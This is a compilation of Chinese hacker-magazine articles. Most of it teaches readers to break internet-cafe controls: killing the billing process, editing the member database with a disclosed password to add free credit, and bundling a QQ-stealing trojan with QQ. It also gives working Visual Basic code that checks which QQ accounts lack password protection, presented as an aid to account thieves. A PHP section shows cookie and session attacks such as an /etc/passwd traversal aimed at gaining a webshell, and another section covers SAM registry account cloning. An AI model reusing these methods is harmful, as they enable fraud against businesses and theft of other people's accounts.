第一破：QQ 网络硬盘，不错的东东哦，感谢腾讯公司提供……（图1）如果大家打开时看到的是空白，只要切换到 TM 就可以啦。基本是没限制的。还可以到腾讯官方网站使用“极速下载”，这样，仍然能用网络硬盘哦。（图2）

第二破：Dreamweaver MX，一个网页制作软件。这东东有 FTP 功能，怎样利用呢？前提是你有一个 FTP 空间放了黑器就可以了。给大家推荐一个 50MB 的空间 http://www.jhhost.com。Dreamweaver MX 在网吧一般都装了的。打开 Dreamweaver MX，点击“站点→新建站点→Web 服务器信息→在服务器访问项选择 FTP→填写 FTP 服务器信息”，填完后，再点“确定→建立”，接下来，直接将你的 FTP 空间上的黑器拖到本地即可。

第三破：假图片。实际上是在 DOS 下将工具 COPY 到图片中的，非安全有说过，不过，我得补充一下，我们这儿的环境是 Win98+万象幻境，当保存了图片，试图用 Shift+右键点击“打开方式”时，弹出的对话框中按钮是灰色的；还有一种是 WinRAR 并没有关联 RAR 这种文件格式，但是网吧是装了的，而且安装目录也被隐藏了。我们需要运行 WinRAR 来打开这种文件，WinRAR 的默认安装目录一般是 C:\Program Files\WinRAR，如果不是，你们只要改掉盘符就可以了。将下列代码保存为 lizaib.htm。

```html
<html>
<body>
<a href="c:\Program Files\WinRAR">lizaib·E·S·T</a>
</body>
</html>
```

再打开点击 lizaib·E·S·T 即可访问该文件夹了。

第四破：网页木马，本来该让别人中的，却让自己中了，呵呵。我们只需使用网页木马生成器把我们的黑器生成网页文件，然后再放到空间上访问就可以了。还有更方便的，不是利用网页木马形式的，是 JAVA 语言做的在线 html 下载，网址：http://www.huo119.com/online3/xzjl3.htm，打开后，会提示你保存文件的目录，你选择一个即可，知道保存的是什么吧？呵呵，一个下载精灵，按下来，不用我说了吧。

## 二、掘地三层 硬盘穿梭

很多网吧都将敏感的东东隐藏起来，为了防止小菜们搞破坏哦，呵呵。大家知道上面的那个 WinRAR 吗？是因为隐藏了起来只好用 html 文件来访问的。这个东东是小菜要经常用到的，总不至于因为找不到而花时间去下载一个吧，而且要是网管发现了，那可真是……不过，有了大菜鸟，咱们不但要找到隐藏的文件，而且要把咱们的黑器藏起来。

第一破：执行脚本，这个比较简单，随便用 IE 打开一个静态页面，在 URL 里这样输入：javascript:document.write("<p><a href='file:///c:/'>lizaib</a></p>")。（图3）然后回车即可，上面输入的不光是在静态网页下的，大家还可以将 c:/ 改为其他盘符。

第二破：QQ，不要告诉偶你没有吧。在 QQ 左侧上有个自定义面板，打开后，再点“添加链接”，然后弹出了下面对话框，在名称处随便写，但在链接处填写要进入的盘符即可。（图4）确定后，再在收藏夹找到你的设置名称双击就行了，看偶的（图5）！C 盘文件都看到了吧，就是这么简单。

第三破：IE，地球人都知道的东西，只要“收藏”下来，单击“链接”即可，然后一直向上，呵呵，就看到 C 盘了吧。（图6）

第四破：自助建站，通俗讲就是在线主页制作，我们建个 html 文件，其代码是指向系统隐藏的盘符，为节省篇幅具体代码放在光盘里了，大家可以传到网上就行了。

第五破：隐藏工具，简单一点就是我们在系统隐藏的文件夹下建一个专用的工具夹即可，你若想做到超隐藏，可以使用工具来做到，比如虚拟磁盘。

## 三、免费上网 中宇漏洞

中宇无盘网络是湖南长沙公司弄的东西，现在网吧用的就是中宇无盘网络+万象网吧妙管家……（正文较长）

- 1. 默认的密码……其密码为：zy。
- 2. 不断攻击其保护模块……
- 3. 当重复运行一些软件，不断退出、关闭……然后呢，网吧管理软件不见了。

## 四、畅游黑旅 完美收获

需要用到的软件：

- Internet 精灵：超好的下载软件，下大型软件最好不过了。
- Total Commander：万象出品的文件管理，其优秀性难以形容。
- 精锐网吧破解联盟：新一代的破解网吧工具哦。
- IceSword：非常好的反黑利器。
- Windows 按钮突破专家：灰色按钮的利器。
- 黑客必备工具包：真名叫非君子远行器，强力推荐，小菜必备。

好啦，上面是网吧黑客必须用到的工具啦。有了这些，我们不但纵横网吧加钱，还可以无限网吧账号哦。偶可是为小菜才弄的。

Total Commander 安装好后，运行它打开 C 盘，我们会看见万象安装的目录文件夹，打开它。（图8）

看到 Oct2003.mdb 吗？那是保存会员的数据库，我们用 Domain 3.5 打开一下，是！要密码呢，不用怕……（图9）

密码是：chrdwhdxt。小菜们不要客气啦，去加钱吧，偶先用 Domain 3.5 的数据库功能修改吧。（图10）

看到么，偶卡号为 2491，用户名为 lizaib，密码为偶自己 QQ 号……改完后，我们再用 Total Commander 替换原来的数据库，等明天服务器重启，我们的修改就生效了。

接下来再说另一个破解，直接杀死管理软件的进程，偶用的是 IceSword，极好的反黑软件。（图11）

看到了么，QQ 旁边就是那个计费软件，并且没有什么还原精灵的。

现在看到了吧，计费软件没有了哦，这就是一个超简单的免费上网法。（图12）

好啦，我们再点盗 QQ 号。我用的是农村户口 QQ 大盗，havkvip.com 有下载的，我配好界面，大家一看就懂。（图13）

生成木马后，有必要的话加一下壳。呵呵。木马弄好了，我们再下一个灰鸽子捆绑工具，把木马与 QQ 捆绑在一起了，干什么？嘿嘿，谁要运行 QQ，就中马啦，看看，偶收到的号码。（图14）

> 黑帽尖峰！也欢迎大家来 BBS 与我讨论。  
> 【编辑点评】熟练使用各种兵器，可是游走武林的必修课程。作者的话学活用也值得大家学习，比如 IceSword 的运用，在其他环境也可以有事半功倍的效果。不过，我从来坚决反对盗 QQ 这种无耻的行为，我们学习了技术可以，但不要去骚扰无辜的受害者们。

## 探寻网吧异常程序之谜

网吧破解一族，都有各自认为简单的方式来突破相关限制，但一些专门针对网吧的软件也多了起来。一些比较受大家喜爱的，如：还原传奇大师、网络执法官、精锐网吧辅助工具等程序都是破解网吧的必备工具。但是这些工具也有马失前蹄的时候，在运行过程中会莫名其妙地出错，是什么原因呢，本篇正是探讨这个问题的。

## 一、发现可疑进程

一天，我一如既往来到网吧使用这些软件来突破限制，但是刚运行这些程序，程序就自动退出了。是杀毒软件作怪吗？用进程管理器看了看，没有发现杀毒软件的相关进程。那到底是什么呢？带着疑问，我用 IceSword 仔细检查当前的进程，发现有两个可疑进程 NetSafe.exe 和 Explorer.exe。（图1）

## 二、判断可疑进程的作用

从文件名上推测 NetSafe.exe 好像是网络安全，而 Explorer.exe 是系统资源管理器哦，但为什么 Explorer.exe 不在系统目录下面，而是在其他目录下呢？且 NetSafe.exe 和 Explorer.exe 同在一个目录下，由于系统的 C 盘被屏蔽了，我直接用 IceSword 的文件管理功能，来查看这个可疑目录。（图2）

## 三、破解异常之谜

发现除了刚才发现的两个进程以外还有许多程序，打开 Explorer.txt 和 Config.ini 看了看，终于明白了这两个进程是做什么的了（图3），再用 IceSword 结束掉 NetSafe.exe 和 Explorer.exe，此时再运行“还原传奇大师”，嘿~可以正常运行了。

## 后记

整个过程简单得不得了，建议大家不要使用任务管理器来看进程，这样分不清楚哪个才是真正的资源管理器，使用 IceSword 可以看到 NetSafe.exe 和 Explorer.exe 的图标是一个黄色的小锁，这样比较容易识别。个人猜测：这些保护程序主要是通过判断程序中标题栏的字符和文件名来判断的，因为我在打开 winhex.rar 的压缩包时也会被这些程序自动关闭。（我也把这些程序打了包，有兴趣的朋友可以分析或者看。）

> 【编辑点评】又是利用 IceSword！黑客需要敏锐的洞察能力，有时越是相似，就越是疑点。带着怀疑的态度去学习，也会让大家有更多的收获。

> 其实浪迹天涯

过来人都说玩程序的人很辛苦，很可怜，天天趴在电脑前写代码，搞算法。没有时间顾及自己另外的生活，往往是一个人活在自己的代码海洋里，且都不擅言谈，所以很多人适应不了现实的世界，还有可能找不到 GF！不晓得这样的说法是不是很现实，至少我认为，把搞程序作为一种爱好应该比把它作为一种职业要轻松得多，就像玩 HACK，一样的道理。

## 查询QQ密码保护——我来也

smallrascal [S.C.T] &[A.V.T]

- 1. 打开 QQ 密码保护页面
- 2. 通过抓包分析返回信息
- 3. 判断账号是否开启密码保护

是不是经常有小黑黑大战们用阿拉盗 QQ，刚把密码改了，准备占为己有时，却发现 QQ 的拥有者通过密码保护修改了密码。于是我们就设想，要是修改密码前能知道这个 QQ 有没有设置密保就好了，不至于浪费时间。但是怎么查询它是不是设置了密码保护呢？这正是本人要跟大家讨论的问题。今天就给感兴趣的小黑黑们打造一款 QQ 密码保护查询器，怎么样，爽吧！

## 一、可行性研究：手工验证

首先我们打开 `http://service.qq.com/psw/mo.shtml?psw_cs.htm` 这个网页，它是 Tencent 为 QQ 用户提供的重设密码页面，密码被盗后可以到此页面通过申请密码保护时填写的资料直接修改密码。本次测试我们就利用它了。

接着，我们在网页对应的地方输入要查询的 QQ 号，这里以 10000 号为例。输完后点击“下一步”。注意，这里不要输入“附加码”，为什么不输的问题先放一下，讲完步骤再解释。稍等片刻，我们可以看到新网页上的提示信息是“您暂时还没有申请密码保护这项服务”，如图1所示。

现在我们点击“返回”按钮回到刚才的页面，再次输入一号码，以 654321 号为例。输完后还是点击“下一步”。这次返回的提示信息是“附加码错误”，如图2所示。

上面的提示是当然的啦，因为我们并没有输入附加码嘛。但是通过这个有没有想到什么？为什么第一次是提示没有申请密码保护，而第二次则提示附加码错误？为了证明我的猜测，我用自己的号码做了两次测试，第一次不输附加码，得到的提示还是“附加码错误”；第二次输入正确的附加码，这次没有出现提示，而是跳到了回答问题的页面，从另一方面来说，就是此号码已经申请了保护。依此类推，刚才的 10000 没有密码保护，而 654321 已申请了保护。

到这里，我们已经完全明白其原理了。对了，上面还遗留了一个问题就是为什么我们不输入附加码，其实那是我偷懒，也是技巧，因为仅仅判断提示附加码错误要比判断一张网页来得准确。

## 二、具体细节：数据包分析

每次那么一堆号码，你不会都通过手动来测试吧，机械劳动可是会厌倦的哦！那就用程序来代替吧！先来分析一下 Tencent 的网页是怎么做的。

首先我们还是在浏览器中打开上面的网页，接着打开 WSock Expert 进行抓包分析，点击 WSock Expert 工具栏上的“打开”按钮，会弹出一对话框，点选要监听进程左边的“+”号将其展开，选择要监听的窗口，这里可以根据监听窗口的标题来选择。选择好窗口后，点击右下角的“Open”按钮，如图3所示。

现在我们回到网页上，输入要查询的 QQ 号，点下一步。稍等就可以看到 WSock Expert 已经截获了发送及返回的数据，如图4所示。

下面我们来分析一下图4中的一些有用的指令，指令及其功能说明如下：

```http
POST /cgi-bin/remember HTTP/1.1
# 数据是使用 POST 方式发送的，具体调用的文件是 /cgi-bin/remember，使用的 HTTP 版本号是 1.1。
```由上面的分析，我们已经了解清楚了具体步骤及发送的数据，剩下的就是代码实现了。

## 三、最后的战役：代码实现

还是先给出程序的界面与主要控件及其各自属性，这样便于理解下面的程序代码，如图5、图6所示。


第一步，初始化程序，定义变量。本程序只有一个，就是定义存放完整网页代码的字符串变量，代码如下：

```vb
'定义存放完整网页代码的字符串变量
Dim FullWebData As String
```

| 对象 | Name | Caption | Text | MultiLine | ScrollBars |
|---|---|---|---|---|---|
| Label | lblQQNumber | QQ号： | 无 | 无 | 无 |
| TextBox | txtQQNumber | 无 | 10000 | False | 0-None |
| TextBox | txtQQList | 无 | 空 | True | 2-Vertical |
| CommandButton | cmdStart | 开始检测 | 无 | 无 | 无 |
| Winsock | sckQQ | 无 | 无 | 无 | 无 |

图6 程序中用到的主要控件及其属性

第二步，首先判断输入的QQ号是否正确，不正确给出提示并退出此过程；接着设置文本框为只读，防止程序执行时修改QQ号；然后初始化 Winsock 控件，设置使用的协议、连接的主机及连接端口，最后进行连接。代码如下：

```vb
Private Sub cmdStart_Click()
If cmdStart.Caption = "开始检测" Then
    If IsNumeric(txtQQNumber.Text) = False Then
        MsgBox "输入的QQ号不是数字，请重新输入！", vbCritical
        Exit Sub
    End If
    If txtQQNumber.Text < 10000 Or txtQQNumber.Text > 9999999999 Then
        MsgBox "输入的QQ号超出范围！", vbCritical
        Exit Sub
    End If
    cmdStart.Caption = "停止检测"
    FullWebData = ""
    txtQQNumber.Locked = True
    sckQQ.Protocol = sckTCPProtocol
    sckQQ.RemoteHost = "service.qq.com"
    sckQQ.RemotePort = 80
    sckQQ.Connect
Else
    cmdStart.Caption = "开始检测"
    sckQQ.Close
    txtQQNumber.Locked = False
End If
End Sub
```

第三步，根据图4发送 HTTP 指令。这里唯一要注意的就是需要计算发送数据的长度赋给“Content-Length:”，Cookies 可以随便设置，只要是10位的数值即可。代码如下：

```vb
Private Sub sckQQ_Connect()
Dim strCommand As String
strCommand = "POST http://service.qq.com/cgi-bin/re-member HTTP/1.1" & vbCrLf
strCommand = strCommand & "Accept: */*" & vbCrLf
strCommand = strCommand & "Host: service.qq.com" & vbCrLf
strCommand = strCommand & "Content-Length: " & 4 + Len(txtQQNumber.Text) & vbCrLf
strCommand = strCommand & "Cookie: pvid=1234567890; verifysession=" & vbCrLf
strCommand = strCommand & vbCrLf
strCommand = strCommand & "uin=" & txtQQNumber.Text & vbCrLf
sckQQ.SendData strCommand
End Sub
```

第四步，接收网页代码。因为网页代码比较长，需要循环接收。这里的注意点是一次接收完后需要将临时变量中的内容添加到存放完整网页代码的字符串变量中，防止下一次覆盖上一次接收的网页代码。代码如下：

```vb
Private Sub sckQQ_DataArrival(ByVal bytesTotal As Long)
On Error Resume Next
Dim WebData As String
sckQQ.GetData WebData, vbString
FullWebData = FullWebData & WebData
End Sub
```

最后一步：在网页代码全部接收完毕后关闭 Winsock 连接，设置 QQ 号文本框为读写属性，同时根据特征字符串检测 QQ 号是否申请密码保护，结果添加到记录文本框中。代码如下：

```vb
Private Sub sckQQ_Close()
  ' 关闭连接，以便再次连接
  sckQQ.Close
  ' 判断网页代码返回的内容
  If InStr(1, FullWebData, "系统忙，请稍后再试") <> 0 Then MsgBox "系统忙，请稍后再试"
  If InStr(1, FullWebData, "附加码错误") <> 0 Then txtQQList.Text = txtQQList.Text & txtQQNumber.Text & " 已经申请密码保护" & vbCrLf
  If InStr(1, FullWebData, "对方暂时没有申请密码保护这项服务") <> 0 Then txtQQList.Text = txtQQList.Text & txtQQNumber.Text & " 没有申请密码保护" & vbCrLf
  cmdStart.Caption = "开始检测"
  txtQQNumber.Locked = False
End Sub
```

## 四、写在最后

本文没有什么技术，仅仅是抛砖引玉。本文仅是探讨，若非法利用此方法，本人概不负责！有问题到 NoHack 论坛讨论。


对这样的文章，由实际问题出发，分析原因得到解决办法，再通过一定手段获得技术细节，最后用程序实现。这种由解决实际问题编写的程序兼有技术分析和代码实现，能引起初学者兴趣。

至此，一个小巧的 QQ 密保查询程序就完成了，下面我们来看一下测试的情况，如图7所示。


## PHP 的安全之旅：从 Cookie 到 Session

> 从实践中吸收到：1、从 Cookie 和 Session 的角度来讨论 PHP 的安全设置。

最近，在《黑客手册》的论坛看到不少人在问：“脚本攻击只有 SQL 注射吗？”答案当然是否定的……这篇文章便围绕 PHP 的 Cookie 和 Session 进行讨论。

## 一、从 Cookie 出发

Cookie 是一种在远程浏览器端储存数据并用以识别用户的机制。PHP 完全支持 HTTP Cookies，可使用 setCookie() 设置。由于 Cookie 属于 HTTP 头的一部分，设置时机与 header() 类似。

自从 Cookie 技术出现以来，就是 Web 开发人员争论的焦点。Cookie 将账号、密码等信息保存在客户端，因此安全问题和攻击方法也随之而来，如 Cookie 劫持、欺骗与注射。

```php
echo "用户名：$username";
echo "密码：$password";

// 或者
echo "用户名：".$_COOKIE["username"];
echo "密码：".$_COOKIE["password"];
```

- 1. PHP 默认 register_globals=On 时，GET/POST/Cookie/Environment/Session 变量可直接注册成全局变量，易引发混乱。
- 2. Cookie（含 Session）数据存于客户端，若被嗅探/劫持会导致用户数据泄露。
- 3. 客户端 Cookie 可被任意创建和修改，服务端应进行处理与过滤。

```php
<?
// page1.php
$pass=$HTTP_POST_VARS["pass"];
if ($pass=="admin"){
  setCookie("user","admin");
}else{
  die("密码错误");
}
?>
```

```php
<?
// page2.php
if ($_COOKIE["user"]=="admin") {
  echo "some important information";
}
?>
```

```php
例二：
<?
// page1.php
include("config.php");
$pass=$HTTP_POST_VARS["pass"];
if ($pass==$pass_admin){
  setCookie("admin", md5($pass));
}else{
  die("密码错误");
}
?>

<?
// page2.php
include("config.php");
$pass=$HTTP_COOKIE_VARS["pass"];
if (md5($pass_admin)==$pass){
  print "some important information";
}else{
  exit;
}
?>
```

第一个例子的错误再明显不过了，`$_COOKIE["user"]` 的值保存在客户端，如果客户端对 Cookie 的值进行伪造或者修改，它就可以通过 page2.php 的检查。

比起例一，例二的代码显得相对安全些，并且对 `$pass` 进行了 md5 加密，但我们还是要避免 Cookie 内容被劫持的问题。如果其他用户通过嗅探或者跨站脚本攻击取得 `$pass` 的值的话，他就能通过验证。毕竟跨站脚本攻击是很容易做到的。

现在看看例三，一段来自以前的 BMForum 的代码：

```php
例三：
<?
// 摘自 BMForum 的 style.php
$skinname='';$_COOKIE['bmbskin'];
if (empty($skinname)) $skinname='';
if (file_exists("datafile/style/".
$skinname)) include("datafile/style/".
$skinname);
else include("datafile/style/bmb");
?>
```

我们可以看到，这段代码在调用 `$_COOKIE['bmbskin']` 的时候没有进行任何过滤，如果攻击者将 `$_COOKIE['bmbskin']` 的值更改为 `../../../etc/passwd`，他就可以将 `/etc/passwd` 的内容直接读取出来。如果将 `$_COOKIE['bmbskin']` 更改为带 PHP 代码的 Session 文件，那么他们更可以在服务器上执行任意代码（见“走向 Session”部分）。因此，在使用 Web 脚本处理文件/数据库时，必须要严格检查用户提交数据的合法性，不管它们是来自 post、get、Cookie、Session，还是来自 PHP 的预定义变量。

关于 Cookie 的讨论就到这里，下面我们来转入一个新的话题：走向 Session！

## 二、走向 Session

接触过或者使用过 ASP 的读者一定都知道 ASP 中所谓的六大对象，最常用的对象之一就是 Session 对象了。使用 Session 对象可以非常方便地在客户端保存数据，记录当前用户的信息。虽然它的功能与 Cookie 类似，都在客户端的计算机上保存了数据，但是用在不同页面间传递数据时，Session 似乎显得更为简便、安全些。

Session 在客户访问页面的时候，服务器保存客户端的一小段数据，它可以被看作一个存放变量的地方。因此，Session 的值并不像 Cookie 那样可以被任意创建和修改。

每一个创建的 Session 都由客户端系统自动分配，对应着唯一的标识符（SessionID）。当这个标识符被发送到客户端的同时，在服务器端也生成了同样的标识符，作为客户端入口，并以文本文件或者数据库的形式保存。注册了 Session 变量后，就可以通过标识符来进行通信和读写。

当浏览器关闭后，Session 的生命周期同时结束，但是文件仍然存在于 `session.save_path/(sess_***)` 中。下次重新打开浏览器时会重新分配 SessionID，如果使用 `session_id()` 把以前的 ID 取回来，则能够读取保存在 `/tmp` 处的 `sess_***` 得到之前已经设定的参数。

在 PHP 中，要使用 Session，必须先调用 `session_start()` 函数。事实上，`session_start()` 是 PHP 调用 Session 的核心，只要理解了这个函数的原理，整个 Session 的实现过程就不难理解了。

```php
<?
// by lnx
function session_start() {
  if($_COOKIE['PHPSESSID']) {
    $phpsessid=$_COOKIE['PHPSESSID'];
  } else {
    // cookie 中不存在 $PHPSESSID 时，自动生成
    $keychars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
    $length = 32; // $PHPSESSID 的长度
    $randkey = "";
    $max = strlen($keychars)-1;
    for ($i=1; $i<=$length; $i++) {
      $randkey .= substr($keychars, rand(0,$max), 1);
    }
    $phpsessid=$randkey;
  }
  setcookie('PHPSESSID',$phpsessid);
  $phpsess_file=session_save_path().'/sess_'.$phpsessid;
  if(file_exists($phpsess_file)) {
    $phpsess_data=file_get_contents($phpsess_file);
  } else {
    $fp=fopen($phpsess_file,'w+');
    $phpsess_data='';
  }
  $phpsess_data=unserialize($phpsess_data);
  extract($phpsess_data, EXTR_SKIP);
}
?>
```

与 Cookie 一样，Session 同样存在 Session 劫持、Session 欺骗和 Session 注射的情况。

此外，由于 Session 的特殊性，比起 Cookie，Session 认证还存在以下的安全隐患：

- 1. Session id 是唯一的，如果你能猜测或嗅探到一个合法的 id，就可以不需要输入用户名和正确密码，而去访问需要授权的内容。
- 2. Session id 长度太短，可以爆破；由于它不会过期，所以这就可以给入侵者足够的时间去猜测它的位置和值。
- 3. Session 数据一般保存在文件中（位置可配置，Linux 上一般是 `/tmp`，可通过 `session_save_path()` 查询），文件名一般类似于 `sess_<Session id>` 的形式。这个文件也会含变量名称、变量类型、变量值和一些其它数据。
- 4. Session 机制也为攻击者把自己输入保存在远程系统的文件中提供了另一个方便的地方。

说，攻击者需要在远程系统放置一个包含 PHP 代码的文件。如果他不能利用文件上传做到的话，通常就会利用 Session 为一个变量按照自己的意愿赋一个值，然后猜测 Session 文件的位置。因为他知道这文件名是 “sess_<Session id>”（Session id 的值就存在于客户端），所以只需猜测目录，而目录一般就是 “/tmp”。此外，攻击者还可以任意指定 “Session id”（例如 “hello”），然后用这个 “Session id” 创建一个 Session 文件（例如 “/tmp/sess_hello”）。不过 “Session id” 只能是字母和数字组合。


看了上面的内容后，我们马上再来看以下这段代码：

```php
<?
// session.php
Line1: session_start();
Line2: echo "test";

...
Line N
Line N+1: $query="select * from $admin_table where user='$admin_user' and pass='$admin_passwd'";
Line N+2: $result = mysql_query($query, $mysql_link) or print(mysql_error());
?>
```

在没看这篇文章以前，我想很多人都会说：“这段代码绝对没有安全问题。”再说，哪一本 PHP 教科书上不是这样写的呢？但是，由于 Session 的存在，我们的攻击便成为了可能。首先来看第一行代码，我们知道，“Session id” 只能是字母和数字组合，如果我们提交一个包含特殊字符的 Session id，会发生什么情况呢？结果是 session.php 报错，并返回类似以下的内容：

```text
Warning: session_start(): The session id contains invalid characters, valid characters are only a-z, A-Z and 0-9 in I:\wwwroot\session.php on line 2
Warning: session_start(): Cannot send session cache limiter - headers already sent ...
Warning: Unknown(): The session id contains invalid characters ...
Warning: Unknown(): Failed to write session data (files). Please verify that the current setting of session.save_path is correct ...
```


但是，要提交这个 `$PHPSESSID`，只在 IE 上直接访问 “session.php?PHPSESSID=config.php” 是不能成功的（图1）。在 IE 的地址栏上用 GET 方式提交的 `$PHPSESSID` 将会被保存在 cookie 上的 `$PHPSESSID` 覆盖（见上文提到的 register_globals 的顺序）。这个我们只要用 WSE 提一个数据包便能理解（图2）：

```http
GET /session.php?PHPSESSID=config.php HTTP/1.1
Accept: */*
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; Maxthon; ...)
```


所以，我们只要不向服务器提供 `$_COOKIE[PHPSESSID]` 就行了。方法很简单，在 PHPPlane 的“运行 PHP 代码”上填入：

```php
<?
readfile("http://127.0.0.1/session.php?PHPSESSID=config.php");
?>
```

就可以了。运行这行代码后，便能得到前面说到的错误回显。这个错误回显暴露了 PHP 文件的物理路径、PHP Session 的保存路径。虽然这些不能直接给服务器带来什么威胁，但当你发现了 Mysql 注入点的时候，这个物理路径就太振奋人心了。我们再来看看第 “Line N+1” 行的代码，这里 user='$admin_user'，`$admin_user` 被 “'” 围了起来。我们知道，由于 magic_quotes_gpc 的作用，这个变量是不能利用的。但有了 `$_SESSION`，我们就有机可乘了。站拿到一个 webshell。可惜“$_SESSION”的值是保存在服务器上的，我们不能够像 cookie 那样直接修改它的值。这时，旁注就帮了我们的忙。现在很多网站都是租用多用户虚拟主机的，而多用户虚拟主机的文件访问权限都限制得很严格。这时我们只要入侵到同服务器上的一个网站，便可以通过这个网站构造出一个 $PHPSESSID，以及我们想要的 $_SESSION[admin_user]，然后跳回到我们真正要入侵的网站，把 $PHPSESSID 提交过去，webshell 自然也就唾手可得！

好了，关于 Cookie 和 Session 的安全讨论就到这里了。PHP 的 magic_quotes_gpc 的功能使 Web 避免了大多数的攻击，但是一些不易察觉的安全隐患还是会不时地探出头来，http://marc.theaimsgroup.com 每月公布的 300～800 多个漏洞，更不得不让我们提高警惕。

> 如果你对这些内容感兴趣，请关注《黑客手册》以后的相关文章。

## 附：Web 安全参考文章

- (The Truth About Sessions)  
  http://shiflett.org/articles/the-truth-about-sessions
- (Writing Secure ASP Scripts)  
  http://www.nextgenss.com/papers/asp.pdf
- (session fixation)  
  http://downloads.securityfocus.com/library/session_fixation.pdf
- (WhitePaper Blind XPath Injection)  
  http://www.santuminc.com/pdf/WhitePaper_Blind_XPath_Injection_20040518.pdf
- (Web Application Security TISC.pdf)  
  http://www.santuminc.com/pdf/Web_Application_Security_TISC.pdf
- (Blind SQLInjection)  
  http://www.spidynamics.com/whitepapers/Blind_SQLInjection.pdf
- (Advanced SQL Injection in SQL Server Applications)  
  http://www.nextgenss.com/papers/more_advanced_sql_injection.pdf

(Session in 实战专用) - pinkeyes

## 一、失手删用户

上次在非安全的光盘里找到一个有趣（也无聊）的工具，就是“隐藏超级用户”的工具，闲来无事便在本机上试了一试。工具是否有效暂且先不说，就说用户 maxell$ 建好以后我想删掉吧，是打死也不让啊，如图 1、图 2 所示。


没办法，根据我对隐藏用户原理的认识，只能去注册表搞定它了。在 cmd 中输入 regedit，直接来到 HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names 下，看到用户 maxell$ 果然在那里，毫不客气，立马把 HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\maxell$ 以及对应的子项 HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\00000404 删掉。可是苍天哪，大地啊，我怎么就这么糊涂呀，我手一颤，把我的管理员用户“maxell”给删掉了！如图 3 所示。


> 小提示：如果是第一次进入 HKEY_LOCAL_MACHINE\SAM\SAM 项下面的话，是无法继续打开下面的目录的，需要用 regedt32.exe 来修改注册表权限。在 cmd 中输入 regedt32，然后依次打开 HKEY_LOCAL_MACHINE\SAM\SAM，在“安全”菜单中点击权限，把当前登录的用户添加进去，并指定权限为“完全控制”。这样，当再次在 cmd 中输入 regedit 时，便可以看见在 HKEY_LOCAL_MACHINE\SAM\SAM 下又多了几层目录。

## 二、初解难题

不过还好，我现在还是以管理员权限登录着，真是“亡羊补牢，为时未晚”啊。打开 cmd.exe，把用户 maxell 重新添加进去，如图 4 所示。成功，嘿嘿，先高兴下。然后再来提权，如图 5 所示。唉~~一口鲜血从我嘴里吐出来，看来高兴得太早。还好，这并难不倒我，命令行下不行我就换“计算机管理”，在“本地用户和组”里点击用户“maxell”的属性，然后在“隶属于”里添加“administrators”和“debugger users”用户组，如图 6 所示。


图 7 以“新用户”maxell 登录

OK，搞定收工，注销重新登录。当我用用户“maxell”登录后，系统正常启动。正当我洋洋得意之时，我的爱机又跟我开了个玩笑：以往熟悉的桌面不见了，系统是以一个新用户启动的，如图 7 所示。

现在，不但桌面的内容和系统设置要重新导入，而且很多软件也要重新装过，麻烦啊。我毛了，我就不信不能完全复原。

冷静下来仔细想了想，整理了一下自己的思路：刚才的现象说明，我后来建立的用户“maxell”并非前面删除的那个。可是，要怎么才能证明此“maxell”非彼“maxell”，表征用户的参数又在哪里呢？

对，注册表。再次来到注册表里面，果然，现在用户“maxell”的类型为 0x40a，而并非表征系统内置用户的 0x1f4，如图 8 所示。

| 名称 | 类型 | 数据 |
|---|---|---|
| （默认） | 0x40a | （长度为零的二进制值） |

图 8 新建用户“maxell”的类型

> 小提示：  
> 在 WINDOWS 系统中，初始化时会自动建立一个类型为 0x1f4 的系统内置用户，一般为 administrator，而我则改名字为“maxell”了。

现在，问题的根源找到了，可是该怎么处理呢？我想到了重新导入注册表。我先在注册表里删除掉 HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\maxell，接着在桌面上新建一个 .txt 文件，并改名字为 1.reg，然后点右键“编辑”，在文件中写入如下内容，如图 9 所示。

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\maxell]
@=hex(1f4):
```

图 9 1.reg 中的内容

保存后运行，再次查看注册表，用户“maxell”的类型恢复为 0x1f4。再次注销重新登录，一切恢复正常。

## 三、再解难题

后来，我发现利用克隆用户的原理，也是可以成功复原的。当利用 cmd 和“计算机管理”成功添加管理员账号“maxell”之后，在注册表中导出 HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4 为 2.reg，导出 HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\0000040a 为 3.reg，对 2.reg 和 3.reg 点右键“编辑”，把 2.reg 中 F 子项的值覆盖到 3.reg 中的对应位置，如图 10 所示，然后把 3.reg 导入注册表即可。因为 0000040a 子项中的 F 键值是表征用户权限特征的，当系统登录时会初始化用户“maxell”，并依次检测用户名对应的类型、类型对应子项的 F 键值，和表征用户基本识别特征的 V 键值。如果 F 键值符合要求的话，系统将不会再去检测 V 键值而直接启动。这也算是 WINDOWS 的一个小 BUG 吧。所以当我用新建的用户“maxell”登录时，系统会误认为是原来的系统内置用户“maxell”而成功登录。

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4]
"F"=hex:...
```

图 10 2.reg 中的内容

### 四、总结

这只是我学习生活中遇到的一个小插曲，既不包含高深的理论，也没有任何复杂的技术。但我之所以写出来是想告诉大家：当我们遇到困难时，要沉着地面对，冷静地分析，并充分利用自己所学的知识成功地解决问题。这是黑客之道，也是生活之道。

编辑点评：作者的情况我也曾碰到过，迈过账号克隆的方法来恢复系统的确是一个好方法，不要一提到账号克隆就是入侵。借此机会，不会账号克隆的朋友也可以学习学习。

## 雕虫小技之 *nix 专辑

- 改变 redhat 的系统语言/字符集。

```bash
修改 /etc/sysconfig/i18n 文件，如：

LANG="en_US"，xwindow 会显示英文界面，
LANG="zh_CN.GB18030"，xwindow 会显示中文界面。

还有一种方法 cp /etc/sysconfig/i18n $HOME/.i18n。
```

```bash
修改 $HOME/.i18n 文件，如：

LANG="en_US"，xwindow 会显示英文界面，
LANG="zh_CN.GB18030"，xwindow 会显示中文界面。

这样就可以改变个人的界面语言，而不影响别的用户。

vi .bashrc
export LANG=zh_CN.GB2312
export LC_ALL=zh_CN.GB2312
```

